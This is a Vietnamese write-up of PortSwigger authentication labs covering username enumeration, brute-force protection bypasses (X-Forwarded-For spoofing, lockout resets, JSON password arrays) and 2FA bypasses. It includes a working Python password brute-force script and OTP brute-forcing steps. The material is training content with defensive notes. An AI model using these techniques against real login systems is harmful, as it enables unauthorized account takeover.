# Authentication

## Vulnerabilities in password-based login

    Các bài lab trong nội dung này đều được cấp sẵn wordlist username và password do PortSwigger. 
    Vì thế chúng ta sẽ sử dụng chính cái list này để hoàn thành lab.

### Lab: Username enumeration via different responses
**Yêu cầu**: Lab có lỗ hổng `username enumeration` và `password brute-force`. Nhiệm vụ: khai thác lỗ hổng để xác định username hợp lệ, sau đó brute-force mật khẩu từ danh sách cho trước, đăng nhập vào tài khoản và hoàn thành lab.

**Thực hiện**
- Việc đầu tiên chúng ta cần làm là làm sao để tìm kiếm được `username` hợp lệ (`username enumeration`). Chúng ta sẽ dựa vào response HTTP để suy đoán.


- Nếu `username` sai thì server trả về `Invalid username` -> Nếu mà đúng thì chắc hẳn sẽ có kiểu thông báo khác. Dùng `Intruder` để kiểm tra giả thiết.


- Sau khi chạy tôi phát hiện ra `username:announcements` thì sẽ hiện như sau:


- Vậy thì chúng đã có `username` việc còn lại là brute-force `password`:


**Notes**
Chúng ta có thể tận dụng Intrusder của Burp để làm hoặc có thể sử dụng script Python để làm. Ở bài lab này mọi thứ chỉ dừng lại ở case đơn giản. Tuy nhiên việc `username enumeration` là khá hay xảy ra vì tôi đã từng thấy nó ở một vài trang web trước đây.
___

### Lab: Username enumeration via subtly different responses
**Yêu cầu**: Lab có lỗ hổng `username enumeration` và `password brute-force` nhưng được bảo vệ một cách tinh vi. Nhiệm vụ: tìm cách phát hiện username hợp lệ, brute-force mật khẩu từ danh sách cho trước, đăng nhập vào tài khoản và hoàn thành lab.

**Thực hiện**
- Bài lab này có ý tưởng giống bài lab trên tuy nhiên cách mà HTTP phản hồi có chú khác biệt nhỏ. Việc chúng ta là tìm ra sự khác biệt đó và thực hiện `username enumeration`.
- Vẫn như bài trước ta sẽ bắt gói tin Burp rồi dùng Intruder để gửi nhiều gói tin với `username` khác nhau và theo dõi phản hồi.



- Sự khác biệt ở đây là dấu `.`. Nếu đúng sẽ không có dấu chấm `Invalid username or password` và sai thì `Invalid username or password.`. Tiếp theo thì chúng ta sẽ dò password.


**Lưu ý**
Đôi khi do không cẩn thận trong việc đưa ra cảnh báo 1 cách thống nhất mà thông tin về `username` có thể bị lộ. Trong trường hợp này bản thân dev có thể đã lường trường việc khác nhau giữa HTTP response trả về nên đã để warning giống nhau. Tuy nhiên lại sơ sẩy quên mất dấu `.`.
___

### Lab: Username enumeration via response timing
**Yêu cầu**: Lab có lỗ hổng `username enumeration` dựa trên thời gian phản hồi của ứng dụng. Nhiệm vụ: khai thác sự khác biệt trong thời gian phản hồi để xác định username hợp lệ, sau đó brute-force mật khẩu từ danh sách cho trước, đăng nhập vào tài khoản và hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Bài lab này tôi nghĩ là nó không dễ. Việc đầu tiên cần làm là kiểm tra cơ chế xác thực của server thông qua tài khoản cho sẵn `wiener:peter`
- Vì bài lab là `timing` vì thế ta cần để ý tới thời gian phản hồi. Thử với các trường hợp tôi có bảng sau

| Case                     | Response time  |
|--------------------------|----------------|
| user & pass correct      | ~200ms-280ms   |
| user correct, pass wrong | ~200ms-280ms   |
| user wrong, pass wrong   | ~200ms-280ms   |

- Từ bảng số liệu trên tôi vẫn chưa đưa ra được phán đoán chính xác. Vì thế hãy thử với password dài và ngắn xem thời gian phản hồi sao.

| Case (user đúng)         | Response time  |
|--------------------------|----------------|
| pass dài                 | phụ thuộc vào độ dài password |
| pass ngắn                | ~200ms-280ms   |
| user wrong, pass (dài, ngắn) wrong | ~200ms-280ms   |

- Ta có thể suy ra cơ chế xác thực như sau:
    1. Kiểm tra `username`: Nếu sai thì sẽ phản hồi lại luôn ( ~220 ms)
    2. Kiếm tra `password`: Nếu `username` đúng thì `password` sẽ được kiểm tra. Và chính vì độ dài của `password` sẽ làm tăng thời gian phản hồi

- Ngoài ra trong quá trình xác định cơ chế xác thực hệ thống có xảy ra tình trạng như sau. Điều này là do server có cơ chế xác thực IP.


- Theo gợi ý của Lab chúng ta dễ dàng bypass cơ chế xác thực IP này thông qua HTTP header. Cụ thể là `X-Forwarded-For`.
> 🧪 Hint
To add to the challenge, the lab also implements a form of IP-based brute-force protection. However, this can be easily bypassed by manipulating HTTP request headers.

- Giờ thì chúng ta có thể thực hiện tấn công rồi. Việc đầu tiên là xác định được username chính xác.



- Chúng ta có `username: albuquerque` giờ thì tìm nốt password là xong. Brute-force như các bài lab trên.


**Lưu ý**
Bài lab này có yếu tố liên quan đến `X-Forwarded-For`, một header HTTP dùng để xác định IP gốc của client khi request đi qua proxy hoặc VPN. Nếu server tin tưởng giá trị trong header này mà không kiểm tra, attacker có thể giả mạo IP để bypass hệ thống kiểm soát truy cập hoặc giới hạn brute-force theo IP. Ngoài ra bài này ta có thể sử dụng chế độ `Cluster boom` của Intruder để bypass mà không cần chú ý đến timming vì nếu thành công sẽ trả về mã `302` còn lại thì không.
___

### Lab: Broken brute-force protection, IP block
**Yêu cầu**: Lab có lỗ hổng do `logic flaw` trong cơ chế bảo vệ chống `password brute-force`. Nhiệm vụ: khai thác lỗ hổng để brute-force mật khẩu của `carlos`, sau đó đăng nhập vào tài khoản của hắn và hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Bài này chỉ việc brute-force password của `carlos`. Vì thế bước đầu tiên là thử bypass cơ chế IP block của server. Ta thử thì cứ sau 5 lần nhập sai mật khẩu thì sẽ bị lock thời gian. Thử thêm `X-Forwarded-For` thì cũng không được.
- Hóa ra cơ chế bài này là sau 4 lần nhập sai, nếu lần thứ 5 nhập đúng thì ta lại tiếp tục nhập được 5 lần tiếp.
- Script python:

```
import requests
passwords = open('password.txt').read().splitlines()
url = "https://0aac00310383b56a8140118f00f60024.web-security-academy.net/login"
cookie = {'session': '6NFEpsqGyUG5JTaou8PLC5DNDLtZNaxJ'}
counter = 0
def sendRequest(url, password):
    print(f'[+] Trying password: {password}')
    carlosLoginData = {
        'username': 'carlos',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=carlosLoginData).text

    if 'Incorrect password' not in loginRequestText:
        print(f'[+] Found password: {password}')
        return True
    else:
        return False

for password in passwords:
    if(counter == 2):
        tmp = requests.post(url, cookies=cookie, data={'username': 'wiener', 'password': 'peter'})
        counter = 0
        

    if(sendRequest(url, password)):
        break
    counter += 1
```
**Notes**
Bài lab này về ý tưởng làm thì đơn giản, tuy nhiên cần biết một chút code để có thể giải bài này dễ dàng hơn. Ngoài ra còn có thể dùng điều kiện `Race Conditions` để bypass cơ chế block IP này.
___

### Lab: Username enumeration via account lock
**Yêu cầu**: Lab có lỗ hổng `username enumeration` và sử dụng cơ chế `account locking`, nhưng có lỗi logic trong cơ chế này. Nhiệm vụ: khai thác lỗ hổng để xác định username hợp lệ, lợi dụng lỗi logic để brute-force mật khẩu từ danh sách cho trước, đăng nhập vào tài khoản và hoàn thành lab.

**Thực hiện**
- Ở bài lab này chúng ta phải suy đoán được cơ chế của trang login. Thử gửi nhiều lần gói tin đăng nhập thì không bị có gì khác ngoài thông báo lỗi.


- Thử brute-force `username` và `password` bằng Intruder luôn xem sao.


- Để ý thì thấy với `user:activestat` thì thông báo lỗi như này. Vậy có thể đoán rằng với thông tin đúng thì sẽ hiện thị như vậy còn các thông báo khác thì là hiện thị `invalid` như bình thường.


- Tiếp tục thử password với user vừa tìm được.



- Hoàn thành


**Notes**
Cơ chế bài này có thể hiểu như sau: Với username đúng thì khi thử quá nhiều lần trước rồi thì khi đúng sẽ thông báo lock tài khoản. Sau đó tiếp tục thử đến password, nếu mà password đúng thì sẽ có gói tin redirect `302`. Để chính xác hơn thì ban đầu ta phải thực hiện gửi `user+pass` nhiều lần để đảm bảo lần sau thử đúng thì sẽ là thông báo lock tài khoản luôn.
___

### Lab: Broken brute-force protection, multiple credentials per request
**Yêu cầu**: Lab có lỗ hổng do `logic flaw` trong cơ chế bảo vệ chống `brute-force`. Nhiệm vụ: khai thác lỗi này để brute-force mật khẩu của `carlos`, sau đó đăng nhập vào tài khoản của hắn và hoàn thành lab.

**Thực hiện**
- Bài lab này yêu cầu ta tìm mật khẩu của `carlos`. Bước đầu cũng sẽ là quan sát và suy đoán hành vi.


- Thử gửi nhiều lần thì bị giới hạn. Thử bypass bằng HTTP header cũng không khả thi. Để ý lại gói tin `POST /login` thì thấy rằng data gửi đi dưới dạng file json -> điều này là khác so với các bài lab trước. Do đó có thể đây là thông tin hữu ích giúp giải bài lab này.
- Json có thể gửi theo mảng, không biết liệu có thể gửi cả một mảng password vào trong json này không? Và cơ chế sử lí của nó như nào ?

- Thử kiểm chứng giả thiết trên.


- Có vẻ là đã thành công, mặc dù ta cũng chả biết chính xác password là gì. Ngoài ra đây là script convert từ wordlist ban đầu sang mảng json
```
import json
file_path = 'wordlist.txt'
with open(file_path, 'r', encoding='utf-8') as f:
    result = json.dumps(f.read().split())
print(result)
```
**Notes**
Giới hạn tỷ lệ người dùng là một biện pháp chống brute-force bằng cách chặn IP nếu có quá nhiều yêu cầu đăng nhập trong thời gian ngắn. IP có thể được bỏ chặn theo các cách sau:  

- Tự động sau một khoảng thời gian nhất định  
- Do quản trị viên thực hiện  
- Người dùng tự mở khóa bằng cách hoàn thành CAPTCHA  

Phương pháp này an toàn hơn khóa tài khoản vì giảm rủi ro lộ username và tấn công từ chối dịch vụ. Tuy nhiên, nó vẫn có thể bị bypass bằng cách:  

- Giả mạo IP để tránh bị chặn  
- Gửi nhiều mật khẩu trong một yêu cầu duy nhất để vượt qua giới hạn tốc độ  

Trong bài lab này ta biết thêm nếu không sử lí json đúng cách thì sẽ có trường hợp kiểm tra lần lượt từng phần tử trong mảng json được gửi đi -> Gửi nhiều mật khẩu trong một yêu cầu duy nhất.
___


## Vulnerabilities in multi-factor authentication

### Lab: 2FA simple bypass
**Yêu cầu**: Lab có cơ chế `two-factor authentication (2FA)` nhưng có thể bị bypass. Bạn đã có username và password hợp lệ nhưng không có mã xác thực 2FA. Nhiệm vụ: khai thác lỗ hổng để vượt qua bước xác thực 2FA, đăng nhập vào tài khoản của `carlos` và hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Cơ chế xác thực đây là OTP-code. Khi người dùng đăng nhập vào thì sẽ cần phải có mã OTP để nhập. Hãy thử với `wiener:peter` để xác định cơ chế.


- Vô tình nhập sai mã OTP, bắt lại các gói tin burp để xem.


- Để ý các gói tin. Thử thực hiện truy vấn tới `/my-account?id=wiener` thì không được. Tuy nhiên ta thử đăng nhập lại và chưa ấn mã OTP thì thấy đăng nhập được.



- Dựa vào phản hồi ta đoán được rằng cơ chế xác thực OTP này hoàn toàn có thể bypass bằng việc không cần nhập mã. Đăng nhập với tài khoản `carlos` rồi thực hiện truy vấn tới `/my-account?id=carlos` để hoàn thành bài lab này.

**Notes**
Lỗi này xảy ra do hệ thống xác nhận trạng thái đăng nhập ngay khi nhập đúng `username` và `password`, mà chưa cần mã OTP. Nếu nhập sai OTP, trạng thái đăng nhập mới bị xóa. Điều này có nghĩa là chỉ cần đăng nhập đúng và bỏ qua bước nhập OTP, ta có thể truy cập các trang như `home page` trước khi hệ thống kiểm tra mã OTP, qua đó bypass xác thực hai yếu tố.
___

### Lab: 2FA broken logic
**Yêu cầu**: Lab có lỗ hổng `two-factor authentication (2FA)` do lỗi logic. Bạn có quyền truy cập vào email server để nhận mã xác thực 2FA. Nhiệm vụ: khai thác lỗ hổng để vượt qua 2FA, đăng nhập vào tài khoản của `carlos` và hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Đăng nhập bằng tài khoản hợp lệ. Quan sát các gói tin bắt được.


- Để ý thấy sau khi gửi gói tin `POST /login` thì sẽ gửi tự động gói tin `GET /login2`. Ở đây để ý ở header `Cookie` có chứa `verify=wiener`. Một cơ chế an toàn không nên để lộ thông tin nhạy cảm như này, có lẽ cookie này giúp server biết được là user nào đang xác thực OTP.

 
- Dựa theo giả thiết trên, ta có thể thay đổi `verify` mang giá trị `carlos` và dùng OTP gửi đến mail của `wiener` để xác thực ?


- Mặc dù không thể xác thực đăng nhập, nhưng dựa vào gói tin trả về, ta có thể truy cập `login2` bằng `username:carlos` mà không cần biết mật khẩu.


- Dựa vào phản hồi ta biết OTP có 4 chữ số -> Brute-force mã OTP 


- Lấy session từ gói tin `HTTP Response` và thay vào browser. Load lại là chúng ta đã giải quyết xong bài lab


**Notes**
Lỗ hổng này xuất phát từ việc hệ thống chỉ dựa vào giá trị cookie để xác định người dùng, thay vì kiểm tra thông tin đăng nhập và session thực tế. Khi người dùng hoàn thành bước đăng nhập đầu tiên, hệ thống cấp cookie nhưng không xác minh lại danh tính khi nhập mã 2FA. Điều này cho phép kẻ tấn công chỉ cần thay đổi giá trị cookie thành tên tài khoản mục tiêu mà không cần mật khẩu. Nếu hệ thống không có cơ chế ràng buộc mã 2FA với session đăng nhập ban đầu, kẻ tấn công có thể lợi dụng lỗ hổng này để chiếm quyền truy cập tài khoản của người khác một cách dễ dàng.
___

### 2FA bypass using a brute-force attack
**Yêu cầu**: Lab có lỗ hổng `two-factor authentication (2FA)` cho phép brute-force. Bạn đã có username và password hợp lệ của `carlos` nhưng chưa có mã xác thực 2FA. Nhiệm vụ: brute-force mã 2FA để đăng nhập vào tài khoản của `carlos` và hoàn thành lab. Thông tin đăng nhập của nạn nhân: `carlos:montoya`.

>Trong quá trình tấn công, mã xác thực có thể thay đổi, vì vậy bạn có thể phải thử lại nhiều lần để thành công. Nguyên nhân là mã mới có thể đã từng được Intruder thử trước đó, khiến bạn bỏ lỡ cơ hội nhập đúng mã xác thực.

**Thực hiện**
- Trong lab này yêu cầu chúng ta phải brute-force mã OTP. Tuy nhiên sau mỗi lần nhập sai mã OTP thì lại phải xóa phiên, xong đăng nhập lại. Điều này gây khó khăn trong quá trình brute-force.
- Các bước:
    - Gửi yêu cầu `POST /login` với thông tin đăng nhập.
    - Gửi yêu cầu `GET /login2` để hiện thị form OTP.
    - Gửi yêu cầu `POST /login` với mã OTP.

- Để viết script python ta sẽ cần theo hướng dưới đây
    - Ở `/login` phân tích cú pháp HTML lấy mã csrf tự động rồi gửi gói tin POST với csrf, username, password.
    - Lấy session trả về của gói tin POST ở trên. Phân tích cú pháp HTML lấy mã csrf. Thêm giá trị đó kèm với OTP (brute-force) gửi gói tin post cho `/login2`
    - Nếu thành công thì lấy OTP đó đăng nhập, nếu thất bại xóa session và quay lại bước đầu.

- Tuy nhiên ở đây tôi sẽ dùng `Macro Recorder` để hoàn thành bài lab.
- Setting Rule: 



Việc lấy 3 gói tin như trên ảnh là giúp ta có thể lấy thông tin thay đổi sau mỗi lần. `GET /login` là có session, csrf. `POST /login` là tự động gửi gói tin đăng nhập. `GET /login2` là có session, csrf phục vụ cho `POST /login2`.

- Test thử Macro:

Nếu hiện ra gói tin phản hồi là thành công.

- Sử dụng Intruder


